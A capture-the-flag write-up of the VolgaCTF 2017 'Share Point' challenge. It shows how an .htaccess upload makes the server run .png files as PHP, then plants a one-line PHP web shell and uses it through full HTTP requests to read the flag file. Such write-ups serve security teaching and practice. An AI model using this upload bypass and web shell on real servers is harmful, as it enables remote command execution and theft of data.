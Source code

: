 # Share Point - 200
Problem:
```
Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```
When I browsed to the web I found login page which could login with any user but you have to specify the password.
![login page](kapi-images/Loginpage.JPG)

I found page that I could upload any file but not with php or html file.
![upload page](kapi-images/uploadphpfail.JPG)

I've tried hard but it could not be bypassed file extension checking.

I've come up with another method by uploading .htaccess. I modify .htaccess to handling .png like .php file.
The following was content of .htaccess:
```
AddType application/x-httpd-php .png
```

and then upload the .htaccess file.
![upload htaccess](kapi-images/uploadhtaccess.JPG)

When I uploaded .png file the server will treat the .png file like .php file.

I upload .png file with malicious shell command.
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 221
Content-Type: multipart/form-data; boundary=---------------------------15359717221864
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close

-----------------------------15359717221864
Content-Disposition: form-data; name="userFile"; filename="zion.png"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
-----------------------------15359717221864--
```

Then browse to zion.png and execute commands to find and grab the flag.
```
GET /files/kapi/zion.png?cmd=cat%20/opt/flag.txt HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Date: Mon, 27 Mar 2017 07:03:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 51
Connection: close
Content-Type: text/html; charset=UTF-8

VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```

The flag was:
* VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
